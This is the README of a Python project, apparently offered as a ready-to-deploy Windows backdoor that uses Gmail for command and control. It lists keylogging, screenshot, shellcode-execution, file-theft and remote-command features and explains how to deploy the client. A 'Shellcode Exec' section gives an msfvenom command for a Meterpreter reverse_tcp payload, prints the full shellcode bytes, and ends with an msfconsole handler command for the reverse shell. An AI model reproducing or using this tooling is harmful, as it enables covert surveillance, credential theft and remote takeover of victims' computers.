 Gdog
====
A stealthy Python based Windows backdoor that uses Gmail as a command and control server

This project was inspired by the gcat(https://github.com/byt3bl33d3r/gcat) from byt3bl33d3r.


Requirements
=====
* Python 2.x
* PyCrypto module
* WMI module
* Enum34 module
* Netifaces module


Features
=====
* Encrypted transportation messages (AES) + SHA256 hashing
* Generate computer unique id using system information/characteristics (SHA256 hash)
* Job IDs are random SHA256 hashes
* Retrieve system information
* Retrieve Geolocation information (City, Country, lat, long, etc..)
* Retrieve running processes/system services/system users/devices (hardware)
* Retrieve list of clients
* Execute system command
* Download files from client 
* Upload files to client
* Execute shellcode
* Take screenshot
* Lock client's screen 
* Keylogger
* Lock remote computer's screen
* Shutdown/Restart remote computer
* Log off current user
* Download file from the WEB
* Visit website
* Show message box to user
* Ability to change check-in time
* Ability to add jitter to check-in time to reduce predictability 


Setup
=====
For this to work you need:
- A Gmail account (**Use a dedicated account! Do not use your personal one!**)
- Turn on "Allow less secure apps" under the security settings of the account.
- You may also have to enable IMAP in the account settings.


Download/Installation
====
* https://sourceforge.net/projects/pywin32
* git clone https://github.com/maldevel/gdog
* pip install -r requirements.txt


Contents
=====
- ```gdog.py``` a script that's used to enumerate and issue commands to available clients
- ```client.py``` the actual backdoor to deploy

You're probably going to want to compile ```client.py``` into an executable using [Pyinstaller](https://github.com/pyinstaller/pyinstaller)

**Note: It's recommended you compile client.py using a 32bit Python installation**


Usage
=====
```
                      __
           ____ _____/ /___  ____ _
          / __ `/ __  / __ \/ __ `/
         / /_/ / /_/ / /_/ / /_/ /
         \__, /\__,_/\____/\__, /
        /____/            /____/

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands:
  Commands to execute on an implant

  -cmd CMD                Execute a system command
  -visitwebsite URL       Visit website
  -message TEXT TITLE     Show message to user
  -tasks                  Retrieve running processes
  -services               Retrieve system services
  -users                  Retrieve system users
  -devices                Retrieve devices(Hardware)
  -download PATH          Download a file from a clients system
  -download-fromurl URL
                          Download a file from the web
  -upload SRC DST         Upload a file to the clients system
  -exec-shellcode FILE    Execute supplied shellcode on a client
  -screenshot             Take a screenshot
  -lock-screen            Lock the clients screen
  -shutdown               Shutdown remote computer
  -restart                Restart remote computer
  -logoff                 Log off current remote user
  -force-checkin          Force a check in
  -start-keylogger        Start keylogger
  -stop-keylogger         Stop keylogger
  -email-checkin seconds  Seconds to wait before checking for new commands  
  -jitter percentage      Percentage of Jitter
```


Shellcode Exec
=====

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform Windows EXITFUNC=thread LPORT=4444 LHOST=x.x.x.x -f python

No encoder or badchars specified, outputting raw payload
Payload size: 354 bytes
buf =  ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += "\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += "\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11"
buf += "\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
buf += "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
buf += "\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec"
buf += "\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02"
buf += "\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a"
buf += "\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
buf += "\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
buf += "\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40"
buf += "\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57"
buf += "\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9"
buf += "\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0"
buf += "\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += "\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
buf += "\x53\xff\xd5"
```

Get rid of everything except for the shellcode and stick it in a file:

```
$ cat shell.txt 
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x05\x68\xac\x10\x99\x01\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x61\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x22\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\xe9\x71\xff\xff\xff\x01\xc3\x29\xc6\x75\xc7\xc3\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```
run the console

```
 ./msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST x.x.x.x; run"
 ```
 
 
